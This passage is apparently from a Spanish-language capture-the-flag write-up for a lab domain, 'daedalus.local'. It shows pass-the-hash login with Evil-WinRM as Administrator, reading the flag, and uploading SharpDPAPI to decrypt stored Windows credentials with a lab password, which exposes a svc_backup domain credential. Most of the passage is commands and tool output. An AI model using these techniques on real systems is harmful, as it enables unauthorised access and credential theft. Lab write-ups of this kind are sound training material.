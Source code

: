 Utilizando el hash del usuario Administrator, logramos conectarnos con Evil-WinRM utilizando el método passthehash. Una vez autenticados, obtenemos una sesión de PowerShell donde verificamos la identidad del usuario actual y leemos el contenido de la bandera ubicada en el escritorio.

```powershell
❯ evil-winrm -i web01.daedalus.local -u Administrator -H ******************  
PS C:\Users\Administrator\Documents> whoami
web01\administrator
PS C:\Users\Administrator\Documents> type ..\Desktop\flag.txt
ASCENSION{**************}
PS C:\Users\Administrator\Documents>
```
Se procedió a la implementación de SharpDPAPI con el objetivo de extraer credenciales del sistema. Para ello, se suministró la contraseña disponible, lo que permitió obtener las credenciales del usuario svc_backup.

```powershell
PS C:\Users\Administrator\Documents> upload SharpDPAPI.exe

Info: Uploading SharpDPAPI.exe to C:\Users\Administrator\Documents\SharpDPAPI.exe

Data: 202752 bytes of 202752 bytes copied

Info: Upload successful!

PS C:\Users\Administrator\Documents> .\SharpDPAPI.exe credentials /password:D43d4lusB1ll1ngB055  

  __                 _   _       _ ___
 (_  |_   _. ._ ._  | \ |_) /\  |_) |
 __) | | (_| |  |_) |_/ |  /--\ |  _|_
                |
  v1.11.3


[*] Action: User DPAPI Credential Triage

[*] Will decrypt user masterkeys with password: D43d4lusB1ll1ngB055

[*] Triaging Credentials for ALL users

Folder       : C:\Users\Administrator\AppData\Local\Microsoft\Credentials\

  CredFile           : 6C0FA35116FC27371A650B528FAEE6C0

    guidMasterKey    : {f77aed43-beff-4c38-805d-656a7bc7097a}
    size             : 560
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : Local Credential Data

    [X] MasterKey GUID not in cache: {f77aed43-beff-4c38-805d-656a7bc7097a}

Folder       : C:\Users\billing_user\AppData\Roaming\Microsoft\Credentials\

  CredFile           : C48FA9BC4637C67CB306A191C3C91E23

    guidMasterKey    : {56a4e7f0-7ae5-4a66-86c8-abb9aa484acd}
    size             : 430
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Enterprise Credential Data

    LastWritten      : 10/14/2020 5:35:22 AM
    TargetName       : Domain:interactive=DAEDALUS\svc_backup
    TargetAlias      :
```